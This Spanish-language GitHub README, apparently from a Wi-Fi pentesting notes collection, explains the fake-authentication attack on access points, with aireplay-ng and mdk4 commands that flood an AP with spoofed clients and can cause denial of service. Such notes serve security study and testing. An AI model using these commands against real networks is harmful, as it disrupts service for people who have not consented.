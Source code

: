 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=390&lines=Ataque+de+autenticaci%C3%B3n+Wi-Fi"></a>
</p>

<h1 align="center"></h1>

Un ataque de Autenticación es lo inverso al de un Desautenticación, aquí lo que se hace es envíar clientes falsos a la red; esto satura el ancho de banda y puede provocar lentitud e incluso DoS. Es útil si se quiere capturar el handshake pero no hay ningún cliente "real" conectado a la red, entonces se aprovecha este ataque.

<h1 align="center"></h1>

### AIRCRACK-NG

Este ataque es funcional si el punto de acceso tiene la seguridad WEP activada, de lo contrario, mostrará un mensaje de: `Denegado (código 12), ESSID o WPA incorrecto`.
```
aireplay-ng --fakeauth 5000 -a <AP-MAC> -h <MAC> <INTERFAZ>
```

**--fakeauth / -1:** Modo de ataque Autenticación.

**5000:** Segundos que transcurré para volver a autenticar.

**-a:** Dirección MAC del punto de acceso.

**-h:** Dirección MAC falsa a autenticar.

![2](https://user-images.githubusercontent.com/75953873/181665516-835bfdd9-d080-4091-92e1-86f72cb22987.png)

Al específicar el tiempo en `0` la autenticación del cliente falso será ilimitado.

</br>

### MDK4

En el caso de MDK4, también contiene parámetros para dicho ataque:

**a:** Modo de ataque Autenticaicón.

**-a:** Dirección MAC del punto de acceso.

**-m:** Direcciones MAC's aleatorias.

```
mdk4 <INTERFAZ> a -a <AP-MAC> -m 
```
![1](https://user-images.githubusercontent.com/75953873/181666285-473396ff-e871-4196-9245-3b0956e5e229.png)
